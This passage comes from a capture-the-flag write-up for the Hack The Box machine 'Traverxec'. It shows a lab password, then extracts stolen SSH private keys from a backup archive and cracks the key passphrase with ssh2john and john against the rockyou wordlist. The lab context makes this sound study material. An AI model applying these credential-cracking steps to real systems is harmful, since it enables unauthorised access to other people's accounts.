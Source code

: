 We get prompted for authentication, keyed in `david:Nowonly4me` and we can now proceed to download the file.

![](/assets/images/traverxec4.png)

To extract the contents, we run `tar` on it.

{% highlight bash %}
$ tar -xvf backup-ssh-identity-files.tgz 
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
{% endhighlight %}

Lets see if we can `ssh` using the private `ssh` key.

{% highlight bash %}
$ ssh -i id_rsa david@traverxec.htb
Enter passphrase for key 'id_rsa':
{% endhighlight %}

Seems like we need a passphrase. Lets see if we can crack it with `john`. 

{% highlight bash %}
$ python ssh2john.py id_rsa > david.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt david.hash
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:02 DONE (2019-12-21 22:53) 0.4132g/s 5926Kp/s 5926Kc/s 5926KC/sa6_123..*7¡Vamos!
Session completed

{% endhighlight %}

# user.txt
